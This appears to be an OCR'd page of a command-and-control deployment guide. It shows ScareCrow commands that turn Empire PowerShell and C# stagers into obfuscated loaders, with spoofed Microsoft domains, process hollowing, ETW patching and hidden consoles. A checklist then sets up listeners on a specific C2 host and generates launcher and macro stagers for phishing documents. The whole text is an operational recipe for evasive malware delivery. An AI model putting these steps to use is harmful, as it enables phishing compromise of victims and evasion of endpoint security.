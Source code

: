 
## 🔧 SCARECROW PROCESSING

After generating stagers, process them with ScareCrow:

### Process PowerShell DLL
```bash
cd /home/kali/ScareCrow
./ScareCrow -I /home/kali/Main\ C2\ Framework/advanced-steganography-phishing/stagers/empire_ps_stager.dll \
  -Loader binary -domain microsoft.com -O empire_stager_obfuscated
```

### Process C# DLL  
```bash
./ScareCrow -I /home/kali/Main\ C2\ Framework/advanced-steganography-phishing/stagers/empire_csharp_stager.dll \
  -Loader binary -domain windows.com -O empire_csharp_obfuscated
```

### Advanced Obfuscation Options
```bash
# With control flow obfuscation
./ScareCrow -I stager.dll -Loader binary -domain microsoft.com \
  -injection "ProcessHollowing" -O output_name

# With ETW patching
./ScareCrow -I stager.dll -Loader binary -domain microsoft.com \
  -etw -O output_name

# Console-less execution
./ScareCrow -I stager.dll -Loader binary -console=false \
  -domain microsoft.com -O output_name
```

---

## 📋 STEP-BY-STEP DEPLOYMENT CHECKLIST

### Phase 1: Create Listeners (In Starkiller)
- [ ] Navigate to https://161-35-155-3.sslip.io/#/listeners
- [ ] Click "Create Listener"
- [ ] Use "primary_http" configuration above
- [ ] Start the listener
- [ ] Verify listener shows "Active" status
- [ ] (Optional) Create backup_http listener

### Phase 2: Generate Stagers (In Starkiller)
- [ ] Navigate to https://161-35-155-3.sslip.io/#/stagers
- [ ] Generate PowerShell DLL stager (for ScareCrow)
- [ ] Generate C# DLL stager (for ScareCrow)
- [ ] Generate Windows launcher BAT
- [ ] Generate Macro stager (for phishing docs)
- [ ] Download all stagers to ./stagers/ directory
